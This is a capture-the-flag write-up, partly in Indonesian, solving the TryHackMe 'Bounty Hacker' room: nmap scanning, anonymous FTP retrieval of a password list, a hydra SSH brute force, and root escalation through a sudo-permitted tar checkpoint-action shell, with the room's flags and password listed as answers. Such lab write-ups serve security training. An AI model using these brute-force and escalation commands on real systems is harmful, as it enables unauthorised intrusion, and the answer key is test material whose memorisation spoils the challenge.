






# Bounty Hacker
- desc: You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
- url : [https://tryhackme.com/r/room/cowboyhacker](https://tryhackme.com/r/room/cowboyhacker)

# docs
- [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo)

# answer
- Task 1
  - lin
  - SSH
  - RedDr4gonSynd1cat3
  - THM{CR1M3_SyNd1C4T3}
  - THM{80UN7Y_h4cK3r}

# Solve (Visual)
## information gathering
- Saya memulai dengan melakukan pemindaian menggunakan nmap. \

- Hasil pemindaian menunjukkan bahwa port 21 (FTP) terbuka, dan memungkinkan login dengan user anonim.
- Saya kemudian mengunduh file yang tersedia di server FTP menggunakan perintah get. \

- Setelah mengecek isi file, saya menemukan sebuah wordlist yang kemungkinan dapat digunakan untuk mencoba akses SSH. \


## exploit
- Saya melakukan bruteforce terhadap akun lin menggunakan wordlist yang telah ditemukan, dengan hydra. \

- Setelah berhasil mendapatkan kredensial yang valid, saya masuk ke sistem dan berhasil menemukan flag user. \


## post exploit
- Selanjutnya, saya melakukan pencarian SUID dan memeriksa hak akses sudo.
- Dari hasil pemeriksaan, ditemukan bahwa pengguna memiliki izin untuk menjalankan perintah tar dengan sudo, yang dapat digunakan untuk meningkatkan hak akses \


# Solve (Text-Based)
## information gathering
```bash
: '[+] setup'
ip=10.10.10.79
tun=10.21.78.122

: '[+] nmap'
nmap -sCV -T4 --min-rate=1000000 $ip -oN nmap
# Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-31 19:37 WIB
# Nmap scan report for 10.10.10.79 (10.10.10.79)
# Host is up (0.22s latency).
# Not shown: 970 filtered tcp ports (no-response), 27 closed tcp ports (reset)
# PORT   STATE SERVICE VERSION
# 21/tcp open  ftp     vsftpd 3.0.3
# | ftp-syst: 
# |   STAT: 
# | FTP server status:
# |      Connected to ::ffff:10.21.78.122
# |      Logged in as ftp
# |      TYPE: ASCII
# |      No session bandwidth limit
# |      Session timeout in seconds is 300
# |      Control connection is plain text
# |      Data connections will be plain text
# |      At session startup, client count was 2
# |      vsFTPd 3.0.3 - secure, fast, stable
# |_End of status
# | ftp-anon: Anonymous FTP login allowed (FTP code 230)
# |_Can't get directory listing: TIMEOUT
# 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
# | ssh-hostkey: 
# |   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
# |   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
# |_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
# 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
# |_http-title: Site doesn't have a title (text/html).
# |_http-server-header: Apache/2.4.18 (Ubuntu)
# Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

# Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done: 1 IP address (1 host up) scanned in 40.42 seconds

: '[+] ftp check'
ftp $ip
# Name (10.10.10.79:ariafatah): Anonymous
ftp> passive
ftp> ls
# -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
# -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
ftp> get task.txt
ftp> get locks.txt

cat locks.txt 
# rEddrAGON
# ReDdr4g0nSynd!cat3
# Dr@gOn$yn9icat3
# R3DDr46ONSYndIC@Te
# ReddRA60N
# R3dDrag0nSynd1c4te
# dRa6oN5YNDiCATE
# ReDDR4g0n5ynDIc4te
# R3Dr4gOn2044
# RedDr4gonSynd1cat3
# R3dDRaG0Nsynd1c@T3
# Synd1c4teDr@g0n
# reddRAg0N
# REddRaG0N5yNdIc47e
# Dra6oN$yndIC@t3
# 4L1mi6H71StHeB357
# rEDdragOn$ynd1c473
# DrAgoN5ynD1cATE
# ReDdrag0n$ynd1cate
# Dr@gOn$yND1C4Te
# RedDr@gonSyn9ic47e
# REd$yNdIc47e
# dr@goN5YNd1c@73
# rEDdrAGOnSyNDiCat3
# r3ddr@g0N
# ReDSynd1ca7e

cat task.txt 
# 1.) Protect Vicious.
# 2.) Plan for Red Eye pickup on the moon.

# -lin
```

## exploit
```bash
: 'bruteforce ssh: hydra'
hydra -l lin -P locks.txt $ip ssh -t 64
# [22][ssh] host: 10.10.10.79   login: lin   password: RedDr4gonSynd1cat3

ssh lin@$ip
# pass: RedDr4gonSynd1cat3

cat user.txt 
# THM{CR1M3_SyNd1C4T3}
```

## post exploit
```bash
find / -type f -user root -perm -4000 2>/dev/null

sudo -l
# pass: RedDr4gonSynd1cat3
# User lin may run the following commands on bountyhacker:
    # (root) /bin/tar

: suid tar
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
cat /root/root.txt
# THM{80UN7Y_h4cK3r}
```